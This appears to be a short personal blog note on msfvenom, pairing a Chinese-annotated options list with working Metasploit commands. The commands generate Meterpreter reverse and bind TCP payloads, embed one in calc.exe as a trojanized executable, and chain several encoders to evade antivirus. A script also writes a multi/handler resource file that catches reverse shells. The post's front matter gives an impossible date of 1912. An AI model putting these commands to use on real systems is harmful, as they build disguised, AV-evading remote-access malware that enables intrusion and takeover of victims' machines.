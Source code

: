 title: MSFVENOM
date: 1912-12
categories:
  - kali
tags: [笔记]
photos:
---
/usr/share/metasploit-framework/tools
cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe
PAYLOAD windows/meterpreter/reverse_tcp
$MSFVENOM -p "$PAYLOAD" LHOST="$IP" LPORT="$PORT" EXITFUNC=thread -f raw | 
$MSFVENOM -e x86/shikata_ga_nai -i $ITER -f raw 2>/dev/null | 
$MSFVENOM -e x86/jmp_call_additive -i $ITER -a x86 --platform linux -f raw 2>/dev/null | 
$MSFVENOM -e x86/call4_dword_xor -i $ITER -a x86 --platform win -f raw 2>/dev/null |  
$MSFVENOM -e x86/shikata_ga_nai -i $ITER -a x86 --platform win -f c > msf.c 2>/dev/null
 
 github/metasploitavevasion
<!--more-->         
msfconsole
show payload   
use linux/x64/exec
set cmd /bin/sh
generate -t py -b "/x00"


    echo ""
    echo 'use exploit/multi/handler' >> msfhandler.rc
    echo "set payload $PAYLOAD" >> msfhandler.rc
    echo "set LHOST $IP" >> msfhandler.rc
    echo "set LPORT $PORT" >> msfhandler.rc                                               
    echo 'exploit' >> msfhandler.rc
    $MSFCONSOLE -r msfhandler.rc
Options:
    -p, --payload    <payload>       指定需要使用的payload(攻击荷载)。如果需要使用自定义的payload，请使用&#039;-&#039;或者stdin指定
    -l, --list       [module_type]   列出指定模块的所有可用资源. 模块类型包括: payloads, encoders, nops, all
    -n, --nopsled    <length>        为payload预先指定一个NOP滑动长度
    -f, --format     <format>        指定输出格式 (使用 --help-formats 来获取msf支持的输出格式列表)
    -e, --encoder    [encoder]       指定需要使用的encoder（编码器）
    -a, --arch       <architecture>  指定payload的目标架构
        --platform   <platform>      指定payload的目标平台
    -s, --space      <length>        设定有效攻击荷载的最大长度
    -b, --bad-chars  <list>          设定规避字符集，比如: &#039;\x00\xff&#039;
    -i, --iterations <count>         指定payload的编码次数
    -c, --add-code   <path>          指定一个附加的win32 shellcode文件
    -x, --template   <path>          指定一个自定义的可执行文件作为模板
    -k, --keep                       保护模板程序的动作，注入的payload作为一个新的进程运行
        --payload-options            列举payload的标准选项
    -o, --out   <path>               保存payload
    -v, --var-name <name>            指定一个自定义的变量，以确定输出格式
        --shellest                   最小化生成payload
    -h, --help                       查看帮助选项
        --help-formats               查看msf支持的输出格式列表

/usr/share/metasploit-framework/data/templates
